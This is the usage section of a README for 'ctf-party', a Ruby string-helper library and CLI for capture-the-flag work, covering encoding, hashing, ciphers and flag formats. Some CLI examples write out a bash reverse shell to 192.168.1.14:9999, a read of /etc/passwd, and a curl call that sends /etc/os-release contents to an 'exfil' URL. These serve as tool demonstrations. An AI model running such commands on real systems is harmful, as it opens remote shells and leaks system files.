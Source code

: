 # Usage

## Library

For base64 encoding instead of writing:

```ruby
require 'base64'

myvar = 'string'
myvar = Base64.strict_encode64(myvar)
```

Just write (shorter and easier to remember):

```ruby
require 'ctf_party'

myvar = 'string'
myvar.to_b64!
```

For base64 verification instead of writing:

```ruby
reg = %r{\A(?:[a-zA-Z0-9+/]{4})*(?:|(?:[a-zA-Z0-9+/]{3}=)|
      (?:[a-zA-Z0-9+/]{2}==)|(?:[a-zA-Z0-9+/]{1}===))\Z}xn
reg.match?('SGVsbG8gd29ybGQh')
```

Just write:

```ruby
'SGVsbG8gd29ybGQh'.b64?
```

For hash/digest instead of writing:

```ruby
Digest::SHA2.new(512).hexdigest('mystr')
```

Just write:

```ruby
'mystr'.sha2_512
```

For rot/rot13/ceasar cipher simply use:

```ruby
'mystr'.rot13
'mystr'.rot(shift: 11)
```

For generating a flag respecting a flag format:

```ruby
String.flag = {prefix: 'sigsegv', digest: 'md5'}
'this_1s_a_fl4g'.flag # => "sigsegv{a5bec9e2a86b6b70d288451eb38dfec8}"
```

See more methods at https://noraj.github.io/ctf-party/yard/

## CLI

Most of the methods are available as commands CLI tool:

```
$ ctf-party 'security' to_hex
7365637572697479

$ ctf-party 'NzQ2Zjc0NmY=' from_b64 hex2bin
01110100011011110111010001101111
```

Use native ruby String methods as well as those from ctf-party:

```
$ ctf-party 'id; /bin/bash -i >& /dev/tcp/192.168.1.14/9999 0>&1' shellescape
id\;\ /bin/bash\ -i\ \>\&\ /dev/tcp/192.168.1.14/9999\ 0\>\&1

$ ctf-party noraj capitalize reverse
jaroN
```

It's possible to read from STDIN:

```
$ curl -s https://example.org | ctf-party - htmlescape
&lt;!doctype html&gt;
&lt;html&gt;
&lt;head&gt;
    &lt;title&gt;Example Domain&lt;/title&gt;
...
```

It's possible to apply the transformation to each row instead of the whole string:

```
$ seq 1 10 | ctf-party - dec2hex hex2bin --row
1
10
11
100
101
110
111
1000
1001
1010

$ curl -s https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Malware/conficker.txt | ctf-party - leet md5 --row
dcddb75469b4b4875094e14561e573d8
29c3eea3f305d6b823f562ac4be35217
dd4b21e9ef71e1291183a46b913ae6f2
6fb42da0e32e07b61c9f0251fe627a9c
b0baee9d279d34fa1dfd71aadb908c3f
96e79218965eb72c92a549dd5a330112
7fa8282ad93047a4d6fe6111c93b308a
...

$ cook 'ABC*1-10' | ctf-party - alternatecase succ --row
aBd
aBcAbD
aBcAbCaBd
aBcAbCaBcAbD
aBcAbCaBcAbCaBd
aBcAbCaBcAbCaBcAbD
aBcAbCaBcAbCaBcAbCaBd
aBcAbCaBcAbCaBcAbCaBcAbD
aBcAbCaBcAbCaBcAbCaBcAbCaBd
aBcAbCaBcAbCaBcAbCaBcAbCaBcAbD
```

It's possible to read file directly:

```
$ ctf-party /etc/passwd str2hex --row --file
726f6f743a783a303a303a3a2f726f6f743a2f62696e2f62617368
62696e3a783a313a313a3a2f3a2f7362696e2f6e6f6c6f67696e
6461656d6f6e3a783a323a323a3a2f3a2f7362696e2f6e6f6c6f67696e
6d61696c3a783a383a31323a3a2f7661722f73706f6f6c2f6d61696c3a2f7362696e2f6e6f6c6f67696e
...

$ curl http://example.org/exfil?data=$(ctf-party /etc/os-release urlencode_component --file)
```

## Console

It launches `irb` with the library loaded.

```
$ ctf-party_console
irb(main):001:0>
```
